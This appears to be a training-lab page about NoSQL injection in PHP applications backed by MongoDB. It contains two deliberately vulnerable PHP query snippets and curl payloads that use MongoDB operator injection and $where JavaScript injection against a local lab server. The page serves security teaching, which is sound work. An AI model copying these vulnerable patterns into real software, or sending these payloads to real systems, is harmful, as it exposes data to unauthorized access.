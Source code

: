 ```yaml
---
layout: page
title: "PHP & MongoDB"
---
```


## Lab

[View on GitHub](https://github.com/andrewkboyd/labs/tree/master/NoSQLi/php-mongo)

```bash
git clone https://github.com/andrewkboyd/labs andrewkboyd-labs
cd andrewkboyd-labs/NoSQLi/php-mongo
```

## Exploitable Code Samples

### 1. `find` for specific field
  - Vulnerable Code
    ```php
    $search = $_POST['q'];
    if ($_SERVER['REQUEST_METHOD'] == 'POST' && $search != '') {
      $cursor = $collection->find([ 'title' => $search ]);
    }
    ```
  - Sample queries
    ```bash
    » curl http://127.0.0.1:8080/books/ -d 'q[$exists]=true' -d 'q[$nin][]=Mere Christianity'
    » curl http://127.0.0.1:8080/books/ -d 'q[$exists]=1'
    » curl http://127.0.0.1:8080/books/ -d 'q[$exists]='
    » curl http://127.0.0.1:8080/books/ -d 'q[$in][]=Mere Christianity' -d 'q[$in][]=Narnia Chronicles'
    » curl http://127.0.0.1:8080/books/ -d 'q[$ne]=1'
    ```
### 2. `find` w/ text search
  - Vulnerable Code
    ```php
    $search = $_POST['q'];
    if ($_SERVER['REQUEST_METHOD'] == 'POST' && $search != '') {
      $cursor = $collection->find([ '$where' => "function () { return this.title.includes(\"$search\"); }" ]);
    }
    ```
  - Sample queries
    ```bash
    » curl http://127.0.0.1:8080/books/ --data-urlencode 'q=" + (function() { return \'Mere\'; })() + "'
    ```

### References

  - [MongoDB Query Selectors](https://docs.mongodb.com/manual/reference/operator/query/#query-selectors)

